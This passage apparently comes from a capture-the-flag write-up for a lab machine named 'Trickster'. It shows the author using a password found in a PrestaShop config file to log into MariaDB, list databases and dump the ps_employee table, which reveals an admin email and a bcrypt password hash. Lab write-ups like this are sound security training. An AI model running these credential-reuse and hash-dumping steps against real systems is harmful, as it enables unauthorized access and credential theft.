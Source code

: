 ```
```

# Accessing MySQL Database

Using the database credentials it was possible to access the database as shown below.

```
www-data@trickster:~/prestashop/app/config$ mysql -u ps_user -p
mysql -u ps_user -p
Enter password: prest@shop_o

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 4404
Server version: 10.6.18-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| prestashop         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 

```

# Dumping User Credentials

The `ps_employee` table contained a number of usernames and hashes as shown below.

```
MariaDB [prestashop]> select * from ps_employee \G;
select * from ps_employee \G;
*************************** 1. row ***************************
             id_employee: 1
              id_profile: 1
                 id_lang: 1
                lastname: Store
               firstname: Trickster
                   email: admin@trickster.htb
                  passwd: $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C
         last_passwd_gen: 2024-05-25 13:10:20
         stats_date_from: 2024-04-25
           stats_date_to: 2024-05-25
      stats_compare_from: 0000-00-00
        stats_compare_to: 0000-00-00
    stats_compare_option: 1
    preselect_date_range: NULL
                bo_color: NULL
                bo_theme: default
                  bo_css: theme.css
             default_tab: 1
                bo_width: 0
                 bo_menu: 1
                  active: 1
                   optin: NULL
```